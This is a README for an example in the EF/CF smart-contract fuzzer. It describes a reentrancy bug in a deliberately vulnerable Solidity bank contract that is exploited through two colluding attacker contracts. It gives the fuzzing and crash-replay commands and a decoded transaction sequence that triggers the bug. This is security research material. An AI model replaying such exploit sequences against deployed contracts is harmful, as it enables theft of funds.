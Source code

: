 # Example: Reentrancy with Multiple Colluding Attackers

In this example a reentrancy issue can only be exploited when the attacker
utilizes two colluding smart contracts to exploit the reentrancy. The victim
employs per-address locking to prevent malicious reentrancy. However, during
the callback the first attacker contract can pass control to a second attacker
contract, which in turn can reenter the victim contract.

* `victim.sol` - Implementation of the vulnerable Bank contract (Figure 2 in
  the paper).
* `attack.efcf` - test case generated by EF/CF
* `attack.efcf.yml` - test case generated by EF/CF converted to human readable
  yaml format.
* `attack.efcf.sol` - attacker contract synthesized base on the test case
  generated by EF/CF.
 
 
To start the fuzzing with EF/CF, we can launch it with (adapt the `--cores` to
your machine):
 
```
efcfuzz --source victim.sol --name VulnBankBuggyLockHard --until-crash --timeout 900 --cores 6
``` 

This command instructs EF/CF to fuzz the victim contract
`VulnBankBuggyLockHard` until a crash is discovered. Depending on the machine
this should take a couple of minutes until the first bug, or crash as it called
here, is discovered. EF/CF uses the AFL++ fuzzer to drive the fuzzing process,
so the output directory is very similar to what AFL++ outputs. However, EF/CF
performs several helpful post-processing steps. For example, EF/CF will
automatically minimize crashing test cases. We can run and inspect the
identified crashing test case with:

```
cd ./efcf_out/
./r.sh crashes_min/w5_id:000000,sig:06,src:000276,time:82684,execs:1542787,EM-____e-_____________________-_____-_____-____
```

Using the `efuzzcaseanalyzer` tool (or the `./a.sh` or `./r.sh` wrapper
scripts) we can inspect the generated test case:

```
Block header:
  number: 0
  difficulty: 0
  gas_limit: 0
  timestamp: 0
  initial_ether: 1

TX[0] with tx_sender[0]; tx_receiver[0]; call_value: 0x0; length: 68; block+=0; #returns=0
  func: addAllowance(address,uint256) (0xf3c40c4b)
  input: { address(0xc2018c3f08417e77b94fb541fed2bf1e09093edd), uint(4999999999999999999),  }
TX[1] with tx_sender[0]; tx_receiver[0]; call_value: 0x1; length: 4; block+=0; #returns=0
  func: deposit() (0xd0e30db0)
  input: {  }
TX[2] with tx_sender[0]; tx_receiver[0]; call_value: 0x0; length: 4; block+=0; #returns=1
  func: withdrawBalance() (0x5fd8c710)
  input: {  }
  returns:
    return val: 1; allows reenter: 1; data: 0x
TX[3] with tx_sender[2]; tx_receiver[0]; call_value: 0x0; length: 68; block+=0; #returns=0
  func: transferFrom(address,uint256) (0x1c6adc3)
  input: { address(0xc04689c0c5d48cec7275152b3026b53f6f78d03d), uint(1),  }
TX[4] with tx_sender[2]; tx_receiver[0]; call_value: 0x0; length: 4; block+=0; #returns=1
  func: withdrawBalance() (0x5fd8c710)
  input: {  }
  returns:
    return val: 1; allows reenter: 0; data: 0x
```

All crashing test cases are also converted into Solidity attack contracts in
`./attacks`.
